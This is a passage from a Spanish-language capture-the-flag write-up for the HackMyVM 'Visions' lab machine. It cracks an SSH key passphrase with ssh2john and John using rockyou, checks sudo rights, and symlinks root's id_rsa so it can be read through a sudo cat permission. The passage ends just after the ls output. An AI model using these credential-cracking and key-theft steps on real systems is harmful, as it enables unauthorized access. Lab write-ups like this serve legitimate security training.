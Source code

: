 Vaya, no ha bastado, nos pide una **PassPhrase** para entrar, pero no la sabemos. No pasa nada, podemos aplicar fuerza bruta con **John** y obtener la contraseña.

Antes de proceder con **John** tenemos que pasar la clave `SSH` a un formato que **John** entienda:

```sh
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Visions]
└─# ssh2john isabella.priv_ssh > hash.txt
```

Ahora sí, ya tenemos todo lo necesario para aplicar **fuerza bruta** sobre la clave enconntrada:

```sh
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Visions]
└─# john hash.txt -w=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
invisible        (hash.txt)     
1g 0:00:01:17 DONE 0.01287g/s 146.6p/s 146.6c/s 146.6C/s merda..fulanitos
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Tras un rato de espera veremos que **John** nos encontró la contraseña. ¡Ya podemos entrar como **Isabella**!

### Subida de privilegios #4
Bien, ya estamos en la recta final para poder ganar acceso total sobre la máquina.

Ahora que estamos como **Isabella** realizaremos el mismo proceso que en los anteriores usuarios, listar los comandos disponibles:

```sh
isabella@visions:~$ sudo -l
Matching Defaults entries for isabella on visions:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User isabella may run the following commands on visions:
    (emma) NOPASSWD: /usr/bin/man
```

Vemos que podemos ejecutar el binario **Man** como **Emma**, pero no nos sirve porque ya podemos acceder a su sesión, por lo que lo descartamos.

Tras un rato pensando se me ocurrió crear un link hacia el fichero `id_rsa` en `/root/.ssh/`{: .filepath } y con el usuario **Sophia** leer el contenido, ya que podemos ejecutar **Cat** como cualquier usuario sin contraseña, incluyendo `root`.

```sh
isabella@visions:~$ rm .invisible
isabella@visions:~$ ln -s /root/.ssh/id_rsa .invisible
isabella@visions:~$ ls -la
total 28
drwxr-xr-x 3 isabella isabella 4096 Apr  7 17:21 .
drwxr-xr-x 6 root     root     4096 Apr 19  2021 ..
-rw------- 1 isabella isabella  198 Apr  7 14:32 .bash_history
-rw-r--r-- 1 isabella isabella  220 Apr 19  2021 .bash_logout
-rw-r--r-- 1 isabella isabella 3526 Apr 19  2021 .bashrc
lrwxrwxrwx 1 isabella isabella   17 Apr  7 17:21 .invisible -> /root/.ssh/id_rsa
-rw-r--r-- 1 isabella isabella  807 Apr 19  2021 .profile
drwx------ 2 isabella isabella 4096 Apr 19  2021 .ssh
```
